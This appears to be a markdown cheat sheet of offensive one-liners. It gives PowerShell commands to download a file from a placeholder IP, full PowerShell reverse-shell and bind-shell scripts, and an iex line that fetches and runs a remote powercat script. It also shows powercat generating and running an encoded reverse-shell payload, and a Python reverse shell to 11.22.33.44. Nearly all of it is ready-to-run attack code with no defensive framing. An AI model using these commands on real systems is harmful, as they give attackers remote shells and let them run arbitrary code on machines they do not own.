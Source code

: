 ## *Powershell*

### Download file
```powershell
powershell -c "(new-object System.Net.WebClient).DownloadFile('http://10.22.33.44/wget.exe','C:\Users\test\Desktop\wget.exe')"
```

### Reverse shell
```powershell
powershell -c "$client = New-Object System.Net.Sockets.TCPClient('11.22.33.44',1337);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()"
```

### Bind shell
```powershell
powershell -c "$listener = New-Object System.Net.Sockets.TcpListener('0.0.0.0',443);$listener.start();$client = $listener.AcceptTcpClient();$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close();$listener.Stop()"
```

### Load a remote powercat script
```powershell
iex (New-Object System.Net.Webclient).DownloadString('https://raw.githubusercontent.com/0xc0de44/0xc0de/master/tools/powercat.ps1')
```

### Generate encoded payload (here a reverse shell)
```powershell
powercat -c 11.22.33.44 -p 443 -e cmd.exe -ge > encodedreverseshell.ps1
```
### Execute it
```powershell
powershell -E <encoded payload>
```

## *python*

### Reverse shell
```python
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("11.22.33.44",1337));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/bash","-i"]);'
```

